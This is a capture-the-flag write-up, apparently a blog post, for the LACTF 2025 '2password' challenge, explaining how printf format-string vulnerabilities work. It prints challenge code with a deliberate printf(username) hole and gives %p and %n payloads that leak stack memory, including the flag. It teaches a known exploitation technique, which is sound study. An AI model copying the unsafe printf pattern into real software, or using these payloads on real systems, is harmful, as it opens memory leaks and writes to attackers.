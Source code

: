 ```yaml
---
layout: default
title: LACTF 2025 pwn/2password
description: "by devilmanCr0"
---
```


# A quick writeup for 2password, the first pwn challenge

This is just a quick blog to show how format strings work, sice this challenge essentially focuses on performing a simple exploitation technique on linux GLIBC's "printf"

## Format Strings

In the C programming language, you can use the printf function to print out values and strings as so.

```c
#include <stdio.h>

int main() {
        char buffer[10];
        int x = 5; 
        printf("Hello World\n");
        printf("I can print out a value of a certain declaritive type using format strings like this %d \n", x);
        
        fgets(buffer, 9, stdin); // Capture human input
        printf(buffer) // Danger here
}       

```

Due to the way the libc "printf" handles format strings, you could invariably manipulate the memory of the process if you only pass a string buffer to the function.

`printf(user-controlled-string-buffer)` is what you would be looking for.

In *2password*, you can see this vulnerability present itself at the end of the file "chall.c"

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void readline(char *buf, size_t size, FILE *file) {
  if (!fgets(buf, size, file)) {
    puts("wtf");
    exit(1);
  }
  char *end = strchr(buf, '\n');
  if (end) {
    *end = '\0';
  }
}

int main(void) {
  setbuf(stdout, NULL);
  printf("Enter username: ");
  char username[42];
  readline(username, sizeof username, stdin);
  printf("Enter password1: ");
  char password1[42];
  readline(password1, sizeof password1, stdin);
  printf("Enter password2: ");
  char password2[42];
  readline(password2, sizeof password2, stdin);
  FILE *flag_file = fopen("flag.txt", "r");
  if (!flag_file) {
    puts("can't open flag");
    exit(1);
  }
  char flag[42];
  readline(flag, sizeof flag, flag_file);
  if (strcmp(username, "kaiphait") == 0 &&
      strcmp(password1, "correct horse battery staple") == 0 &&
      strcmp(password2, flag) == 0) {
    puts("Access granted");
  } else {
    printf("Incorrect password for user ");
    printf(username); // vuln here
    printf("\n");
  }
}
```

This challenge already loads the flag in memory, so if we  abuse this memory manipulation vulnerability, we can read its contents directly.

Check the examples here so you can get a better idea of the available "format" strings for printf

https://man7.org/linux/man-pages/man3/fprintf.3.html

Here are the most useful for exploiting format strings
```
d signed integer

u unsigned integer

o octal

x unsigned hexadecimal representation (32 bit)

f floating number

c character

s string of characters (will dereference the addy!)

p pointer address (good for 64 bit) <--- most important

n (special format string that initializes the address its currently pointing to with the  length of the current string in the buffer - a very dangerous feature as this sole format string lets us write data in memory)
hhn: write in 1 byte
hn : write in 2 bytes
n  : write in 4 bytes

An example shown here demostrates how printf reveals its memory when susceptible to this attack. 

input: %p %p %p %p %p %p %p

RESULT: (nil), 1, 0x44412231, 0x7ffffcc2, 0xc0000000, (nil), (your input but in byte representation)
```

You would essentialy be able to see where everything is in memory at that frame of reference, and you can specify the element in this list without the redundancy of inputting %p like so 

```
input: %5$p

RESULT: 0xc00000000 (using previous example's layout to show its convenience)
```

## Exploitation

Finally, putting it all together, if we input %p a few times into this chall, we will leak the flag, and it would show up as a long integer. We can use python to quickly turn this into the original ascii text.

![format string](../assets/images/format-strings/format-string-leak.png)

Viola!
If you want to learn more about writing data using format strings, please let me know. Here's a great resource I found.

[https://axcheron.github.io/exploit-101-format-strings](https://axcheron.github.io/exploit-101-format-strings)
